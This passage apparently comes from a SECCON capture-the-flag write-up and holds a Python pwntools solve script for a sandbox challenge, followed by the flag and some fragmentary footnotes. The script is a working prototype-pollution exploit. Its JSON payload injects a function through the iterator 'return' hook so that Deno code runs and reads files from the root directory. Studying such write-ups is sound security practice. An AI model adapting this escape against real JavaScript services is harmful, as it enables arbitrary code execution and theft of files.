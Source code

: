 ```python
import os
import pwn
import json

io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))

payload = """
for (const entry of Deno.readDirSync("/")) {
    if (entry.name.startsWith("flag-")) {
        const flag = new TextDecoder().decode(Deno.readFileSync("/" + entry.name));
        console.log(flag);
    }
}
""".strip()

input_str = json.dumps({
    "constructor": {
        "prototype": {
            # ref. https://tc39.es/ecma262/2023/multipage/abstract-operations.html#sec-iteratorclose
            #
            # > 3. Let innerResult be Completion(GetMethod(iterator, "return")).
            # > 4. If innerResult.[[Type]] is normal, then
            # >     a. Let return be innerResult.[[Value]].
            # >     b. If return is undefined, return ? completion.
            # >     c. Set innerResult to Completion(Call(return, iterator)).
            "return": {
                "__custom__": True,
                "type": "Function",
                "args": [
                    payload,
                ],
            },
        },
    },
    # Cause an error
    "toString": {
        "caller": {},
    },
})

io.sendlineafter(b"Input your JSON: ", input_str.encode())
print(io.recvall().decode())
```

### Flag

```
SECCON{ECMAScr1pt_has_g4dgets_of_prototype_po11ution!!!}
```

## [sandbox] node-ppjail


[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version. ref: https://www.typescriptlang.org/tsconfig/#target
